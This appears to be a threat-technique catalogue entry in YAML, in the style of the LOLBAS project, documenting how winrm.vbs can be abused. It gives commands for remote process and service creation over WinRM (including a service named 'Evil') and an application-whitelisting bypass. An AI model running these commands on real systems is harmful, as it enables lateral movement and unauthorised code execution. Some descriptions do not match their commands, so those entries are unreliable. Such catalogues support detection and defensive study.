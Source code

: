 ```yaml
---
name: winrm.vbs
description: Script used for manage Windows RM settings
functions:
  execute:
    - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
      code: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
  awl bypass:
    - description: Bypass AWL solutions by copying and executing cscript.exe and malicious XSL documents from attacker controlled location
      code: \%SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Execute aribtrary, unsigned code via XSL script
resources:
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
    - resource: https://redcanary.com/blog/lateral-movement-winrm-wmi/
    - resource: https://twitter.com/bohops/status/994405551751815170
    - resource: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
    - resource: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
fullpath:
    - path: C:\Windows\System32\winrm.vbs
    - path: C:\Windows\SysWOW64\winrm.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

